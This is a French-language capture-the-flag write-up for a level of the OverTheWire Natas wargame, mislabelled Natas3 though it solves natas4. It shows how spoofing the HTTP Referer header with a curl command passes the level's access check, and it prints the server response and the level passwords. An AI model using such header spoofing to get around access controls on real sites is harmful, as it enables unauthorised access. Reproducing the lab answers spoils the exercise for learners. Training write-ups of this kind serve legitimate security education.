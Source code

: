 ## Over-The-Wire -writeup-
### Natas3 (http://natas3.natas.labs.overthewire.org/)

---
#### Etape 1

"Accès refusé, vous visitez le site depuis '...', et les utilisateurs authorisés doivent venir depuis 'http://natas5.natas.labs.overthewire.org/'"  
On va donc **changer notre referer**, une en-tête de requette HTTP qui informe les sites de la provenance des utilisateurs (d'où ils viennent, de quel lien), par le lien demandé.

Je vais utiliser une commande **cUrl** qui va se connecter à la page en changeant le *referer* pour moi:

*Structure de la commande pour se connecter à la page: **curl -u username:password http://target-address/**  
Ici cUrl renvoie la même erreur que sur le navigateur, puisque le referer n'a pas été changé. On s'est juste identifié.

Structure de la command pour changer de referer: **curl --referer http:/referer-adress/ http://target-address**  
Ici cUrl envoie une requête en informant http://target-address/ que l'on provient de http://referer-address/*

**Fusionnons les deux**:
> curl -u username:password http://target-address/ --referer http://referer-address/ http://target-address/

Dans notre cas, la commande exacte est:  
> curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/

---
cUrl renvoie :
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

---
Mot de passe: **iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
